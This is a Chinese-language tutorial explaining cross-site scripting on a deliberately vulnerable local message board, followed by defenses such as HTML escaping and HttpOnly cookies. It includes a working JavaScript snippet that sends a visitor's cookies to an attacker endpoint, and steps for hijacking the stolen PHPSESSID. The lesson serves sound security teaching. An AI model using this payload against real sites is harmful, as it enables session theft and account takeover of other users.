

# XSS攻击

XSS（Cross Site Scripting）跨站脚本攻击，是存在于很多老旧应用系统中，原理简单但危害很大的攻击形式。我们这里对XSS攻击进行介绍和演示。

注：这里其实仅仅是演示原理，在较新的系统中，由于各种框架都有考虑安全性，而且现在的开发人员安全意识比老程序员高得多，真正发现一个XSS漏洞是很难的（通常是间接性的），以下例子使用ThinkPHP5.x编写，框架本身是很安全的，但我们故意做了若干不安全的设置，否则几乎无法实现XSS。

## 原理演示

### 环境搭建

假设我们现在有如下图这样一个应用系统，运行于`localhost:80`，它包含一个功能「留言板」，用户登录后可以访问所有的留言，以及发表留言，该功能的输入框具有XSS漏洞。


当然，该应用系统还有许多其它的涉及隐私，或是涉及金钱的服务，任何人都可以免费注册该网站，但现在攻击者想要窃取其它用户的登录状态，以便转移受害者的资产。

### 注入脚本

我们知道Ajax有个鸡肋的特性就是请求不能跨域，但这个特性除了阻碍我们开发以外没什么其他作用，它根本拦不住我们用其它歪门邪道的方式发起跨域请求。

以下代码的作用是获取浏览器中的Cookie，并创建一个``标签，向我们运行在`localhost:8080`的攻击系统发送数据。`upload.php`负责接收数据并存入数据库。

```javascript
var token = document.cookie;
var img = document.createElement('img');
img.src = 'http://localhost:8080/upload.php?token=' + token;
document.appendChild(img);
```

我们使用`<script>`标签包裹注入的脚本，由于被攻击的应用系统存在XSS漏洞，这段代码会被其他用户的浏览器执行，把自己的Cookie发送出去。


### 其他用户访问

当其他用户访问这个页面时，并不会看到任何``，但是他们的登录状态已经在不经意间泄漏了。


### 攻击者设置Cookie并登录

我们现在已经拿到了Cookie，`upload.php`为我们保存在了数据库中，如图所示。


我们要做的就是把`PHPSESSID`设置到浏览器中。


注：Firefox手动添加、编辑Cookie很方便，Chrome好像没有这个功能，只能通过代码创建。

这里我们就跳过了登录，直接利用其它人的`PHPSESSID`进入系统了。


## 防范XSS

实际上，使用现代的框架和技术，就上面这样一个最简单的留言板应用系统，不「特殊修改」一下想写出XSS漏洞都很难，但这不代表业务逻辑变得复杂后，我们写的系统就是安全的，我们可能在实现某个特殊需求时，不经意间就写下了一个隐蔽的漏洞，但原理和上面都是相通的。

### HTML过滤

防范XSS最直接的办法是HTML标签过滤，如果上面我们的浏览版页面过滤了用户输入，让`<script>`这种标签无法起效，注入的脚本也就不会在其他用户的浏览器中执行了。

实际上，ThinkPHP模板引擎默认就会在显示时过滤HTML标签，例如`{$msg}`，假如`msg`中包含文本`<script>`，它只会转义并原样输出。除此之外，我们也可以在用户输入提交数据库前，对非法字符进行过滤。



注：仅适用HTML过滤可能并不是最保险的方式，网上有很多针对某种过滤规则，声称能绕过过滤的方法，也有些过滤库声称能100%杜绝XSS，但不怕一万就怕万一。

### HttpOnly标记

HTTP协议支持`HttpOnly`标记，假如浏览器实现上没有任何bug，它能保证JavaScript无法以任何方式读取`HttpOnly`的Cookie，只有HTTP请求才能带上Cookie，这个基本杜绝了窃取`sessionId`形式的XSS，默认PHP的`PHPSESSID`就是`HttpOnly`的，之前我们演示的程序如果不手动把`HttpOnly`去掉是根本不可能被攻击成功的。

尽管如此，我们仍不排除有些网站会用非`HttpOnly`记录一些其它有价值的数据，除此之外，前后端分离开发时（Vue/React/Angular）一定要留心，很多新手开发者为了和移动客户端的登录机制兼容，需要手动设置一个`Cookie`存储登录凭证而忘记了`HttpOnly`，此外存储在`Local Storage`、`Session Storage`、`IndexedDB`、`WebSQL`中也没有任何XSS保护，在HTML标准于安全方面变的更加完善之前，像登录凭证这种数据不应出现在这些地方。
